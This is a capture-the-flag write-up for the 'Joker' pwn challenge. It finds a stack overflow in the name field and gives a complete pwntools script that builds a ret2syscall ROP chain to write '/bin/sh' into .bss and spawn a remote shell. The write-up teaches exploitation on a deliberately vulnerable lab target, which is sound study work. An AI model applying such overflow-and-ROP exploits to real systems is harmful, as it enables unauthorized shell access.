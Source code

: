 # Joker - pwn

## Description

Classic.

----
Connect to the service with: `nc challenges.hackrocks.com 20002`

Found the seg fault place:
```bash=
Why did the packet cross the wire?
To get to the other port... XD
Did you like the joke? yes
Leave a review then!
Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Review: Review received. Have a nice day! :)
zsh: segmentation fault  ./joker
```

main function

![](https://note.rootams.nl/pad/uploads/a549b3c1-cbed-4a65-ba80-36de6bdd6e78.png)

The binary has been statically linked, rendering ret2libc impossible. The binary has been stripped, so function names cant be read. The functions look like libc functions so with some analysis we can fill out most function names:


![](https://note.rootams.nl/pad/uploads/b8abb548-d314-45e4-baca-fb0852badcde.png)


# Approach
We can overflow the name and thereby also the review buffer and follow this up with a ropchain. If we inspect the ROPgadgets we can see we that we have the right gadgets to perform a ret2syscall. Since the binary does not contain a string for /bin/sh we need to somehow also write this into the binary using the ropchain. The rop chain is composed of 5 parts.

1. the padding
2. setting up the registers for read() into a writable section (.bss)
3. executing read (inputting the "/bin/sh")
4. setting up registers for syscall
5. making syscall and getting shell


The code looks as follows:

```python=
#!/usr/bin/env python3
from pwn import *



host = "challenges.hackrocks.com"
port = 20002
r = remote(host, port)


exe = './joker'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

pop_rax = 0x43d90c
pop_rdi = 0x401716
pop_rsi =0x406988
pop_rdx = 0x43cf95
syscall = 0x402354
read = 0x43cf80 #FUN_0043cf80 AKA read()
bss = elf.bss() #Any writeable area is good



offset = 102
payload = flat(
    b"e" * offset,
    #Setting up registers for read()
    pop_rdi,
    0x0,
    pop_rsi,
    bss,
    pop_rdx,
    0x8,
    pop_rax,
    bss,
    #executing read()
    read,
    #setting up register for syscall
    pop_rax, 59,
    pop_rdi, bss,
    pop_rsi, 0,
    pop_rdx, 0,
    #pwn
    syscall
)


r.readuntil("Did you like the joke? ")
r.sendline("yes")
r.readuntil("Name: ")
r.sendline(payload)
#reading /bin/sh into .bss
r.sendline("/bin/sh\x00")
#shell
r.interactive()
```
